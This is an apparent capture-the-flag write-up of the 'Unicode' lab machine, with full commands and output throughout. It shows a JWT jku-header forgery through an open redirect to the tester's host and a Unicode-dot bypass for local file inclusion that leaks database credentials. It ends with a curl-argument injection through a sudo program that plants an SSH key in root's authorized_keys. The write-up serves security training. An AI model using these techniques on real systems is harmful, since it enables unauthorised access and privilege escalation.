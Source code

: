 
# Unicode

- Walkthrough
- Mitigrations
- References


## Walkthrough

The tester started by performing an nmap scan.

```
# Nmap 7.93 scan initiated Sun Dec  3 13:31:08 2023 as: nmap -p 80,22 -A -oA service_scan 10.10.11.126
Nmap scan report for 10.10.11.126
Host is up (0.067s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fda0f7939ed3ccbdc23c7f923570d777 (RSA)
|   256 8bb6982dfa00e5e29c8faf0f449903b1 (ECDSA)
|_  256 c989273e91cb51276f3989361041df7c (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: 503
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec  3 13:31:18 2023 -- 1 IP address (1 host up) scanned in 9.46 seconds
```

The scan showed that port 80 was open and hosting a threat analisys company. Its possible to create an account on the site that brought up a report upload page and also revealed that the site is using json web token(JWT) for authenication. 

insert screen on jwk ------------------------


when the JWK is decoded it shows that the JWK uses the jku header that points to the URL containing the JWKS file containing the public key for verifying the token. 


screen of decoded jwk --------------


If it is possible to change the jku header to point to an attacker controlled server an malicious public key can subsitiued to allow the malicious actor to forge a ticket and have the server verify it on the malicious actors server. This server has controls in place to prevent the server from verifying the token on another server. 

The tester used gobuster to bruteforce the web sites directories and found a "redirect" endpoint. 

```
└──╼ [★]$ gobuster dir -t 1 -u http://10.10.11.126/  -w '/home/rang3r/Documents/Tools/SecLists-master/Discovery/Web-Content/common.txt' --exclude-length 9294
===============================================================
Gobuster v3.1.0

/checkout             (Status: 308) [Size: 264] [--> http://10.10.11.126/checkout/]
/dashboard            (Status: 308) [Size: 266] [--> http://10.10.11.126/dashboard/]
/debug                (Status: 308) [Size: 258] [--> http://10.10.11.126/debug/]    
/display              (Status: 308) [Size: 262] [--> http://10.10.11.126/display/]  
/error                (Status: 308) [Size: 258] [--> http://10.10.11.126/error/]    
/internal             (Status: 308) [Size: 264] [--> http://10.10.11.126/internal/] 
/login                (Status: 308) [Size: 258] [--> http://10.10.11.126/login/]    
/logout               (Status: 308) [Size: 260] [--> http://10.10.11.126/logout/]   
/pricing              (Status: 308) [Size: 262] [--> http://10.10.11.126/pricing/]  
/redirect             (Status: 308) [Size: 264] [--> http://10.10.11.126/redirect/] 
/register             (Status: 308) [Size: 264] [--> http://10.10.11.126/register/] 
/upload               (Status: 308) [Size: 260] [--> http://10.10.11.126/upload/]     
                                                                                    
===============================================================
2023/12/07 23:53:49 Finished
===============================================================

```

Using the redirect endpoint it was possible for the tester to set the jku header to point to the redirect endpoint and set it to point to the testers host. The "jwt_tools.py" is able to do this by creating a custom JWK, which the tester then hosted using a python http server. The tester changed the JWK to point to the testers host via the redirect "http://hackmedia.htb/static/../redirect?url=10.10.14.6/jwttool_custom_jwks.json". The tester also changed the user claim part of payload section to admin.
```
┌─[192.168.93.129]─[rang3r@parrot]─[~]
└──╼ [★]$ python  '/home/rang3r/Documents/Tools/tools/web/jwt4/jwt_tool-master/jwt_tool.py'   eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy9qd2tzLmpzb24ifQ.eyJ1c2VyIjoiam9obiJ9.fUXM6uoYSqrXOEEggGoVxSw5q53TeukNNAa0wREc9_dOqPUEr1F2SBsgFdu4P18PNE4yWVYeuSexsGEL3vwWYEKE4awLbzkJnPQPj2_qF3pyVKX0NYNRI-LjpIriPZ6Z-FgnoRo47vEKQG2yMLLSmaI8FS7wrpR7OL42I3USiBh3qPBz26ZwZmtwh7b12vyaFWRsBcybq0-3I-np8eg4DQS51_ZMMNvNxv3VIF8UD3PtBr3hK1iviyfK9ZiQbgiV8SKjfnpi3rat1NQcJRJ50A3VcbbHZZ2pqe-iYruXUZf8anz4PGODYXg3m7aEScBKK8eeqiZ0rKt7gT4lrkrp7A  -X s -ju http://hackmedia.htb/static/../redirect?url=10.10.14.6/jwttool_custom_jwks.json  -I -pc user -pv admin  

<snip>

Original JWT: 

Paste this JWKS into a file at the following location before submitting token request: http://hackmedia.htb/static/../redirect?url=10.10.14.6/jwttool_custom_jwks.json
(JWKS file used: /home/rang3r/.jwt_tool/jwttool_custom_jwks.json)
/home/rang3r/.jwt_tool/jwttool_custom_jwks.json
jwttool_628f71f241a933abf519c578de4e8a42 - Signed with JWKS at http://hackmedia.htb/static/../redirect?url=10.10.14.6/jwttool_custom_jwks.json
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdD91cmw9MTAuMTAuMTQuNi9qd3R0b29sX2N1c3RvbV9qd2tzLmpzb24ifQ.eyJ1c2VyIjoiYWRtaW4ifQ.hyY-UHi_VvIfqMcM0yefE80UNOa6bOUpPOYACvbzSBCucnu-cwiCsTTQD1bTb3GDReMyytRPNY0h10PAeSW3ssLRE6UtLXDP0uXFBS_h0ArWYwfhgskcfFaPqS5Q7UvjSp9v7G0lfzUSTDdIFKSGn9ErPUVZn4DFkFaDd6lvgnpeAukCmXuP96_0dbTgZ56wgkVwWC01pKHtcm1bweMBW0OyJKvjkI1Gi_EOoTMExZichPV8vvJCB8xfa5OMvrLEaT7uB_xQ-gSuF3TCz5GkZ-7sAQcdN88cqOt1KxdPEpsI3hjVAsrVFW5jivD8XMka0o9qJFnR98jj9L5lSPaDDA

```
The tester then set up the http server where the json file was located. The tester pasted over the old JWK in the storage sectrion of the browser and refreshed the page. 

```
┌─[192.168.93.129]─[rang3r@parrot]─[~/.jwt_tool]
└──╼ [★]$ sudo python3 -m  http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.126 - - [08/Dec/2023 23:14:25] "GET /jwttool_custom_jwks.json HTTP/1.1" 200 -
```

With admin access, it was possible to use the display endpoint. The endpoint was well filtered however the tester was able to bypass the filter using unicode characters, replacing "." with "‧" allowing the tester to perform a local file inclusion attack. Using this bypass the tester was able to read the source of the web app. The tester discovered the app.py file. 


```
└──╼ [★]$ curl  http://10.10.11.126/display/?page=﹒﹒/app.py -H "Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdD91cmw9MTAuMTAuMTQuNi9qd3R0b29sX2N1c3RvbV9qd2tzLmpzb24ifQ.eyJ1c2VyIjoiYWRtaW4ifQ.hyY-UHi_VvIfqMcM0yefE80UNOa6bOUpPOYACvbzSBCucnu-cwiCsTTQD1bTb3GDReMyytRPNY0h10PAeSW3ssLRE6UtLXDP0uXFBS_h0ArWYwfhgskcfFaPqS5Q7UvjSp9v7G0lfzUSTDdIFKSGn9ErPUVZn4DFkFaDd6lvgnpeAukCmXuP96_0dbTgZ56wgkVwWC01pKHtcm1bweMBW0OyJKvjkI1Gi_EOoTMExZichPV8vvJCB8xfa5OMvrLEaT7uB_xQ-gSuF3TCz5GkZ-7sAQcdN88cqOt1KxdPEpsI3hjVAsrVFW5jivD8XMka0o9qJFnR98jj9L5lSPaDDA" | grep db.yaml
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  9738  100  9738    0     0  61937      0 --:--:-- --:--:-- --:--:-- 62025
db=yaml.load(open('db.yaml'))
```

The file contained the file name containing the sql credentials.  

```
┌─[192.168.93.129]─[rang3r@parrot]─[~/Projects/machines/unicode]
└──╼ [★]$ curl  http://10.10.11.126/display/?page=﹒﹒/db.yaml -H "Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdD91cmw9MTAuMTAuMTQuNi9qd3R0b29sX2N1c3RvbV9qd2tzLmpzb24ifQ.eyJ1c2VyIjoiYWRtaW4ifQ.hyY-UHi_VvIfqMcM0yefE80UNOa6bOUpPOYACvbzSBCucnu-cwiCsTTQD1bTb3GDReMyytRPNY0h10PAeSW3ssLRE6UtLXDP0uXFBS_h0ArWYwfhgskcfFaPqS5Q7UvjSp9v7G0lfzUSTDdIFKSGn9ErPUVZn4DFkFaDd6lvgnpeAukCmXuP96_0dbTgZ56wgkVwWC01pKHtcm1bweMBW0OyJKvjkI1Gi_EOoTMExZichPV8vvJCB8xfa5OMvrLEaT7uB_xQ-gSuF3TCz5GkZ-7sAQcdN88cqOt1KxdPEpsI3hjVAsrVFW5jivD8XMka0o9qJFnR98jj9L5lSPaDDA" 
mysql_host: "localhost"
mysql_user: "code"
mysql_password: "B3stC0d3r2021@@!"
mysql_db: "user"

```

Using these crentials it was possible to SSH  into the unicode host.

```
┌─[192.168.93.129]─[rang3r@parrot]─[~]
└──╼ [★]$ ssh code@10.10.11.126
code@10.10.11.126's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

<snip>

code@code:~$ id
uid=1000(code) gid=1000(code) groups=1000(code)
code@code:~$ hostname
code
code@code:~$ 

```

The code user was able to run the /usr/bin/treport command as root.


```
code@code:~$ sudo -l 
Matching Defaults entries for code on code:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User code may run the following commands on code:
    (root) NOPASSWD: /usr/bin/treport

```

The "treport" program is used to create, download and read reports. The program uses the curl command to download reports. The command has filter but can be bypassed using brackets. The tester used the program to download the testers public key into the root account's ssh "authorized_keys" file. THe tester had to set up a python http server to host the public key.

```
code@code:~$ sudo /usr/bin/treport
1.Create Threat Report.
2.Read Threat Report.
3.Download A Threat Report.
4.Quit.
Enter your choice:3
Enter the IP/file_name:{10.10.14.6:8081/id_rsa.pub,-o,/root/.ssh/authorized_keys}
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   567  100   567    0     0   8462      0 --:--:-- --:--:-- --:--:--  8462
Enter your choice:

```

```
┌─[192.168.93.129]─[rang3r@parrot]─[~]
└──╼ [★]$ ssh root@10.10.11.126
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

<snip>

root@code:~# id
uid=0(root) gid=0(root) groups=0(root)
root@code:~# hostname
code
root@code:~# 

```

once the public key had been place the tester could SSH into the host as root.


## Mitigations 

## References

- https://jwt.io/
- https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection
- https://github.com/ticarpi/jwt_tool/
- https://0xacb.com/normalization_table
- https://qaz.wtf/u/convert.cgi

